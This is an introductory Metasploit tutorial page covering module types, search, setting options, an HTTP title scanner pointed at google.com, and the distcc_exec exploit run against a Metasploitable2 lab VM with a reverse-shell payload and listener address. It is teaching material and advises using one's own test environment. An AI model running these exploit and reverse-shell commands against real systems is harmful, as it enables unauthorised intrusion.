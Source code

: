 ```yaml
---
title: "Introduction to Metasploit"
description: "Learn more about the Metasploit framework."
icon: "code"
draft: false
---
```


Assuming you now have Metasploit installed, run the `msfconsole` command to open Metasploit:

<!-- ![msf](https://i.imgur.com/I2r5rxg.png) -->
<blockquote class="imgur-embed-pub" lang="en" data-id="I2r5rxg" data-context="false" ><a href="//imgur.com/I2r5rxg"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

## Finding Modules

Metasploit is based around the concept of modules. The most commonly used module types are:

- Auxiliary - Auxiliary modules do not exploit a target, but can perform data gathering or administrative tasks
- Exploit - Exploit modules leverage vulnerabilities in a manner that allows the framework to execute arbitrary code on the target host
- Payloads - Arbitrary code that can be executed on a remote target to perform a task, such as creating users, opening shells, etc
- Post - Post modules are used after a machine has been compromised. They perform useful tasks such as gathering, collecting, or enumerating data from a session.

You can use the search command to search for modules:

```sh
search type:auxiliary http html title tag
```
<!-- ![aux](https://i.imgur.com/zfS0jeL.png) -->
<blockquote class="imgur-embed-pub" lang="en" data-id="zfS0jeL" data-context="false" ><a href="//imgur.com/zfS0jeL"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

You can use a Metasploit module by specifying the full module name. The prompt will be updated to indicate the currently active module:

Example: 
```sh
use auxiliary/scanner/http/title
```

Each module offers configurable options which can be viewed with the show options, or aliased options, command:

```sh
show options
```
<!-- https://i.imgur.com/pyHXlf7.png -->
<blockquote class="imgur-embed-pub" lang="en" data-id="pyHXlf7" data-context="false" ><a href="//imgur.com/pyHXlf7"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

To set a module option, use the set command. We will set the RHOST option - which represents the target host(s) that the module will run against:

```sh
set RHOSTS google.com
```

The run command will run the module against the target, showing the target’s HTTP title:

<!-- https://i.imgur.com/xG4VbZ4.png -->
<blockquote class="imgur-embed-pub" lang="en" data-id="xG4VbZ4" data-context="false" ><a href="//imgur.com/xG4VbZ4"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

We can also run modules with options set as part of the run command. For instance, setting both RHOSTS and enabling HttpTrace functionality:

```sh
run rhosts=google.com httptrace=true
```
<!-- https://i.imgur.com/jAchW4Z.png -->
<blockquote class="imgur-embed-pub" lang="en" data-id="jAchW4Z" data-context="false" ><a href="//imgur.com/jAchW4Z"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

There is quite a lot of information on the output and you can scroll more to see it.

## Running exploit modules
Exploit modules require a vulnerable target. It is recommended to set up your own local test environment to run modules against. For instance in a Virtual Machine, or with Docker. There are multiple pre-built vulnerable test environments including:

Metasploitable2
Metasploitable3
For instance - targeting a vulnerable Metasploitable2 VM and using the unix/misc/distcc_exec module:
```sh
use unix/misc/distcc_exec
```

Exploit modules will generally at a minimum require the following options to be set:

- RHOST - The remote target host address
- LHOST - The listen address. Important This may need to be set to your tun0 IP address or similar, if you are connecting to your target over a VPN
- PAYLOAD - The code to be executed after an exploit is successful. For instance creating a user, or a Metasploit session. Often this can be left as the default value, but may sometimes require configuration

Each module offers configurable options which can be viewed with the show options, or aliased options, command:

<!-- https://i.imgur.com/5YTf1lE.png -->
<blockquote class="imgur-embed-pub" lang="en" data-id="5YTf1lE" data-context="false" ><a href="//imgur.com/5YTf1lE"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

For this scenario you can manually set each of the required option values (RHOST, LHOST, and optionally PAYLOAD):

```sh
set rhost => 192.168.123.133
set lhost 192.168.123.1
set payload cmd/unix/reverse
```

The run command will run the module against the target, there is also an aliased exploit command which will perform the same action:

```sh
run 
```


You have now learnt how to find and run modules in Metasploit, as well as how to make some custom configurations.